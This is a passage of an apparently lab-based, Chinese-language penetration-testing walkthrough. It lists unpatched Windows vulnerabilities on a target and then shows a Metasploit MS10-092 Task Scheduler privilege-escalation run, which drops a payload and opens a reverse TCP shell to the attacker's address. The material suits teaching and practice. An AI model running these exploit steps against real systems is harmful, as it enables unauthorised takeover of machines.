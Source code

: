 ```
MS04-020 patch is NOT installed 2K/SP4-POSIX)                                                                                                                                                                                               
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)                                                                                                                                                   
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)                                                                                                                                                                
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)                                                                                                                                                                 
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)                                                                                                                                                                                             
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)                                                                                                                                                               
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)                                                                                                                                                                                   
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)
```

可以看见靶机很多补丁没有安装，逐个枚举，使用MS10-092

```
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > search MS10-092

Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/windows/local/ms10_092_schelevator  2010-09-13       excellent  Yes    Windows Escalate Task Scheduler XML Privilege Escalation


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms10_092_schelevator
```

```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Preparing payload at C:\Windows\TEMP\AoTizOUxSB.exe
[*] Creating task: LXJM4TwyEqICqyv
[*] SUCCESS: The scheduled task "LXJM4TwyEqICqyv" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\LXJM4TwyEqICqyv...
[*] Original CRC32: 0x866f314a
[*] Final CRC32: 0x866f314a
[*] Writing our modified content back...
[*] Validating task: LXJM4TwyEqICqyv
[*] 
[*] Folder: \
[*] TaskName                                 Next Run Time          Status         
[*] ======================================== ====================== ===============
[*] LXJM4TwyEqICqyv                          1/1/2022 5:38:00 AM    Ready          
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "LXJM4TwyEqICqyv" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
```